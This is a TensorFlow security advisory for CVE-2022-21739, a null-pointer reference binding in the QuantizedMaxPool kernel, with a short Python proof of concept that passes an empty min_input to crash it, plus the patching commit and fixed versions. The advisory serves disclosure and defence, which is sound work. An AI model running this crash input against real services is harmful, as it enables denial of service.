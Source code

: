 ## TFSA-2022-018: Reference binding to null pointer in `QuantizedMaxPool`

### CVE Number
CVE-2022-21739

### Impact
The [implementation of `QuantizedMaxPool`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/quantized_pooling_ops.cc#L114-L130) has an undefined behavior where user controlled inputs can trigger a reference binding to null pointer.

```python
import tensorflow as tf

tf.raw_ops.QuantizedMaxPool(
    input = tf.constant([[[[4]]]], dtype=tf.quint8),
    min_input = [],
    max_input = [1],
    ksize = [1, 1, 1, 1],
    strides = [1, 1, 1, 1],
    padding = "SAME", name=None
)
```

### Patches
We have patched the issue in GitHub commit [53b0dd6dc5957652f35964af16b892ec9af4a559](https://github.com/tensorflow/tensorflow/commit/53b0dd6dc5957652f35964af16b892ec9af4a559).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
